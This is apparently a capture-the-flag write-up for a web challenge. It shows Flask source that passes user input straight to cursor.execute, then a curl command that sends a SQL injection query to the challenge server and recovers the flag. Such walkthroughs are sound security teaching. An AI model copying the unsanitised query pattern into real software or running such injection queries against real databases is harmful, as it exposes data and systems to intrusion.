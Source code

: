 ```python

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        query_str = request.form['query']
        results = query(query_str)

        if results == 1:
            return render_template('index.html', error="Syntax error in query."), 500
        elif results == 2:
            return render_template('index.html', error="MySQLdb.OperationalError."), 500
    else:
        results = None

    return render_template('index.html', results=results)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

We immediately can spot the injection point at 
```python
cursor.execute(query + " LIMIT 20;")
```
Basically we can execute arbitrary MySQL queries on the server.
After some search we can see there are 3 tables *known_isomorphic_algorithms*, *programs* and *to_derezz*.
Each of these tables have the columns *id*, *name*, *status* and *location*
Each table has a lot of apparently random records.
<br>After some fuzzing we find the flag using the query:
```bash
curl -X POST -d "query=SELECT location FROM programs WHERE location LIKE \"%flag%\"-- " http://chal.ctf.b01lers.com:3004/
```

which yields 
```html
<!-- ... -->
<div class="row">   
    <h3>Query Results:</h3>
    <table class="table">
        <tbody> 
            <tr>
                <td>flag{REDACTED}</td>
            </tr>
        </tbody>
    </table>
</div>
<!-- ... -->
```
🏁 __flag{I_fight_for_the_users_and_yori}__{:.spoiler}

---
